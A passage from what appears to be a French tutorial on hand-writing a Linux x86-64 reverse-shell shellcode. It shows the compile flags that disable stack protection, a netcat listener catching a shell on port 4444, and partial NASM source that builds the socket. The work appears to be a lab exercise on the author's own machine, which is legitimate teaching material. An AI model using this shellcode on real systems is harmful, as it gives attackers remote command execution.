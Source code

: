 On compile le code : 

```bash
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

On lance le listener et le programme : 

```bash
┌──(dropa㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...

// Dans un autre terminal on exécute le programme contenant le shellcode

┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode   
                                                                                                    
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ ./shellcode                                                   
Shellcode length: 120
```

Et voici ce qu’il se passe au niveau du listener : 

```bash
┌──(dropa㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.45.128] from (UNKNOWN) [192.168.45.128] 47710
whoami
dropa
pwd
/home/dropa/Bureau/articles/shellcode

```

Ca fonctionne ! 🎉😎


Code final : 

```nasm
global _start

section .text

_start:

	xor rax, rax
	xor rbx, rbx
	xor rcx, rcx
	xor rdx, rdx
	xor rdi, rdi
	xor rsi, rsi
	
	mov al, 41 ; RAX prends la valeur 41 (numéro du syscall SYS_SOCKET)
	mov dil, 2 ; RDI prends la valeur 2 pour le “domain” AF_INET (IPv4)
	mov sil, 1 ; RSI prends la valeur 1 pour le “socket type” SOCK_STREAM (socket de flux)
	mov dl, 6 ; RDX prends la valeur 6 pour le protocole utilisé = IPPROTO_TCP pour TCP. 
	syscall ; On execute la fonction socket() pour créer un socket :)
	mov r8, rax
	sub rsp, 8 ; On prépare un buffer de 8 octet sur la stack pour stocker la structure d'adresse
	mov BYTE[rsp],0x2 ; On place le domaine 2 (AF_INET) dans le premier octet du buffer
	mov WORD[rsp+0x2],0x5c11 ; On place le port 4444 en little-endian 
	;4444 en héxa = 115c mais en assembleur on inverse tous les octets
	mov DWORD[rsp+0x4], 0x802da8c0 ; Place l'adresse IP (192.168.45.128) en little-endian
	mov rsi, rsp ; RSI prends une adresse vers une structure. 
```